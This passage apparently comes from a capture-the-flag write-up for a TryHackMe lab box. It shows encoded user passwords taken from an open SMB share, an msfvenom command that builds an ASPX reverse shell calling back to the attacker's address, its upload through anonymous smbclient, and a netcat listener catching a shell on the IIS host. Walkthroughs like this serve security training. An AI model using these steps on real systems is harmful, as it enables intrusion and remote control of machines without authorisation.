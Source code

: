 ```bash
< Content-Length: 98
< 
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
* Connection #0 to host 10.10.30.173 left intact
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

After some tries in both websites, the website hosted in the port **49663** is linked to the `nt4wrksv` share, so since we are facing a IIS server let's upload a `.aspx` reverse shell.

Let's create a `.aspx` reverse shell with `msfvenom`, it need's to be a stageless payload to work with a `netcat` listener.

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.116.52 LPORT=4444 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3410 bytes
```

Once we have it let's upload it to the **IIS Server** via `smbclient`.

```bash
❯ smbclient \\\\10.10.28.45\\nt4wrksv -N
Try "help" to get a list of possible commands.
smb: \> put shell.aspx 
putting file shell.aspx as \shell.aspx (7.9 kb/s) (average 7.9 kb/s)
smb: \>
```

So now we just need to set a listener with `netcat` and  access to ***http://10.10.28.45/nt4wrksv/shell.aspx*** to receive the shell.

```bash
❯ rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.11.116.52] from (UNKNOWN) [10.10.28.45] 49744
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

We get the shell as the user `defaultapppool`.

## Shell as defaultapppool

Once inside we can see the `user.txt` in Bob's Desktop.

```bash
c:\Users\Bob\Desktop>type user.txt
THM{fdk4ka34vk346ksxf*********tf45}
```
